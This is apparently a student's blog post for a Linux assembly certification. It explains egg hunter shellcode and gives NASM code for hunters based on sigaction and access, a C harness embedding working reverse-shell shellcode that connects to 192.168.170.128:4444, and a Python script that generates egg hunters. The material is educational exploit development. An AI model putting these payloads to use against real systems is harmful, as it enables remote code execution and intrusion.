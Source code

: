 ```yaml
---
title: SLAE Exercise 3
tags: SLAE
key: 20190613
comments: true
---
```


This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification:
<http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/index.html>

Student ID: SLAE - 1470

All code can be found in: <https://github.com/xMilkPowderx/SLAE-Code>

### Assignment Three:

1. Study about the egg hunter shellcode
2. Create a working demo of the egg hunter
3. Should be configurable for different payload

What exactly is an egg hunter? When buffer overflow happens, the ESP may not always have enough amount of memory space to fit our shellcode and let use to use JMP ESP to execute it. If this happens, an egg hunter will be handy. We can just include our shellcode in some where else of the memory. Then, the egg hunter code iterate through the memory address and try to locate our egg, which is appended in front of our shellcode. If an egg is found, it will jmp to the egg and execute the rest of the shellcode. 

To make it simple, I try to write down the logic in python.
```python
count = 0
egg = 0x746f6f72 #root in reverse order

for address in range(0xffffffff):
    if address == 0x726f6f74:
        count +=1
    if count == 2:
        jmp_to_shellcode()
    address += 0x1
```

According to <http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf> there are actually a few implementation of egg hunters. Here lets try to understand them one by one.
While the egg hunter travels along the memory address it may seems that all it need is to examine each address one by one. However, the truth is that there are invalid memory address which will cause your egg hunter get a segmentation fault or other runtime error in the program. So, we will need some method to test the address we are going to compare. If it is valid, we will proceed, it not, we will ignore it.

In general, there are system call that can be use to valid an address, sigaction(0x43) and access(0x21).
Below is a proof of concept of egghunter using sigaction

```
global _start

section .text

_start:

setup:
	or cx, 0xfff		;Increase by page_size
next_address:
	inc ecx
	push byte 0x43		;Systemcall for sigation
	pop eax
	int 0x80
	cmp al, 0xf2		;f2 = invalid address
	jz setup
	
	mov eax, 0x726F6F74	;EGG = root = 726F6F74
	mov edi, ecx		;move address to edi to examine
	scasd			;check eax == edi, edi = edi+4
	jnz next_address
	scasd			;check eax == edi, edi = edi+4
	jnz next_address
	jmp edi			;execute shellcode
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/sigaction-egghunter.nasm>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-1.JPG"/>

ECX is being set to end with fff every time we cannot validate the address (0xfff > 0x1000 > 0x1fff > 0x2000). This implementation is to increase ECX by page size. If the address inside a page size is invalid, the rest should be invalid too. As such, we can increase the address by page size and save sometime while searching.
Then, EAX is set to 0x43 so that we can call sigaction to help us validate the address.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-2.JPG"/>

In case the address is invalid, EAX will be set to 0xfffffff2 and by checking is al equals to f2 we know that is the address valid or not. If not, we will jump back to setup and start again.

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-3.JPG"/>

Once a valid address is found, we will start the second part of our shellcode. We will first mov the value of our egg, "root" to eax. Then, the current address to be test will be moved from ecx to edi for testing. We will then use scasd to compare both EAX and value inside the address stored in EDI. 

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-4.JPG"/>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-5.JPG"/>

If two double word are not the same, we will increase ecx and test again. If yes, scasd will check the next double word to verify that this is indeed our egg. Notice that scasd, by default, will increase the address in EDI by 4 after it checked the string. So that is no need for us to increase the address value of EDI and also answered why we can just jmp EDI when the egg is found.

```
global _start

section .text

_start:
	xor edx,edx
setup:
	or dx,0xfff
next_address:
	inc edx
	lea ebx,[edx+0x4]	#Actually an optimization
	push byte +0x21
	pop eax
	int 0x80
	cmp al, 0xf2
	jz setup
	mov eax, 0x746F6F72
	mov edi, edx
	scasd
	jnz next_address
	scasd
	jnz next_address
	jmp edi	
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/access-re-egghunter.nasm>

The implementation of the access method is mostly the same as the sigaction while the access systemcall need more arguments. EBX will be needed to store the address of the string being validate. However, from the code, it seems that EBX is storing the value of EDX + 4. The reason of this is same as the page size implementation. If the value of ebx + 4 is invalid, there is no way that edx will be valid. As such according to the paper, an optimization to the shellcode.
<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-6.JPG"/>

To really test the egg hunter, I will use our reverse shell shellcode for testing.
The following sample will be using the sigaction poc
```c
#include<stdio.h>
#include<string.h>

unsigned char egg_hunter[] = "\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c\xf2\x74\xf1\xb8\x74\x6f\x6f\x72\x89\xcf\xaf\x75\xec\xaf\x75\xe9\xff\xe7";

unsigned char egg[] = \         //reverse shell ip=192.168.170.128 port = 4444
"\x74\x6F\x6F\x72" //EGG, root
"\x74\x6F\x6F\x72"
"\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80\x89\xc6\x31\xdb\xb3\x03\xb2\x80\xc1\xe2\x08\xb2\xaa\xc1\xe2\x08\xb2\xa8\xc1\xe2\x08\xb2\xc0\x52\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\x6a\x10\x51\x56\x89\xe1\x6a\x66\x58\xcd\x80\x87\xf3\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xd2\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80";

void main(){
 printf("Length of Egg Hunter:  %d\n", strlen(egg_hunter));
 printf("Length of Shellcode:  %d\n", strlen(egg));
 int (*ret)() = (int(*)())egg_hunter;
 ret();
}
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/testEgg.c>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-7.JPG"/>

### Python egg hunter generator
At last, below is python script to generate an Egg hunter generator with your custom egg.
```python
import binascii
import sys
import os
import getopt

def usage():
	print('getEgghunter.py -e egg | -h help')	

def main(argv):
	port = 0
	ip = ''
	hexPort = ''
	hexIP = ''
	if(len(sys.argv) < 2):
		usage()
		sys.exit()
	try:
		opts,args = getopt.getopt(sys.argv[1:], "he:", ["help", "egg="])
	except getopt.GetoptError:
		usage()
		sys.exit(2)
	for opt, arg in opts:
		if opt in ("-h", "--help"):
			usage()
			sys.exit()
		elif opt in ("-e", "--egg"):
			egg = arg
			print('Egg: ' + egg)
			if len(egg) != 4:
				print('Invalid Egg, length must be 4 characters')
				sys.exit(2)
	hexEgg = ''
	for char in egg:
		hexEgg = ('\\x' + bytes.decode(binascii.hexlify(str.encode(char)))) + hexEgg

	Shellcode = "\\x66\\x81\\xc9\\xff\\x0f\\x41\\x6a\\x43\\x58\\xcd\\x80\\x3c\\xf2\\x74\\xf1\\xb8"
	Shellcode +=hexEgg 
	Shellcode +="\\x89\\xcf\\xaf\\x75\\xec\\xaf\\x75\\xe9\\xff\\xe7"
	
	print('Egghunter: ' + Shellcode)
	print('Paste this in front of your shellcode')
	print('"' + hexEgg + '"')
	print('"' + hexEgg + '"')

if __name__ == '__main__':
	main(sys.argv[1:])
```
<https://github.com/xMilkPowderx/SLAE-Code/blob/master/Assignment-3/genEgghunter.py>

<img class="image image--xl" src="https://raw.githubusercontent.com/xMilkPowderx/xMilkPowderx.github.io/master/assets/images/SLAE/Ex3-8.JPG"/>